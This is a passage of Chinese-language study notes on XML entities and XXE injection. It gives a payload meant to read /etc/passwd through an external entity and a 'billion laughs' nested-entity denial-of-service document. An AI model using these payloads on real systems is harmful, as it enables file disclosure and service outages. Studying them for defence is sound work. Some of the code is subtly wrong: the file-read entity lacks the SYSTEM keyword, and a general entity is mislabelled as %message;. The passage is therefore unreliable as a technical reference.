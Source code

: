      在这个例子中，`&greeting;` 是一个通用实体，它被定义为字符串 "Hello, "，并在 `<message>` 元素中引用。

2. **参数实体（Parameter Entities）：**

   - **定义方式：** 参数实体通常用DTD中的 `<!ENTITY % name "value">` 声明进行定义。注意 `%` 符号用于区分通用实体和参数实体。

   - **使用范围：** 参数实体主要用于定义在DTD内部，用于简化DTD的结构，提高可维护性和可重用性。参数实体不能在文档实例中引用，但可以在DTD内引用。

   - **示例：**

     ```
     xmlCopy code<!DOCTYPE example [
       <!ENTITY % greeting "Hello, ">
       <!ENTITY message "%greeting;World!">
     ]>
     
     <root>
       <content>&message;</content>
     </root>
     ```

     在这个例子中，`%greeting;` 是一个参数实体，被定义为 "Hello, "，然后 `%message;` 在DTD中使用了 `%greeting;` 来定义最终的文本 "Hello, World!"。

### XXE注入

#### 原理

#### 利用方式

##### 任意文件读取

* 最为常见的利用方式：通过外部实体引用支持的协议，引用目标文件

```xml
<!DOCTYPE root [
<!ENTITY passwd "file:///etc/passwd">
]>

<root>&passwd;</root>
```

* &passwd;将被解析为目标文件的内容，如果我们足够幸运，返回包包含我们发送过去的\<root\>&passwd;\</root\>，那么我们将会直接得到想要的文件内容

##### DOS攻击

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```
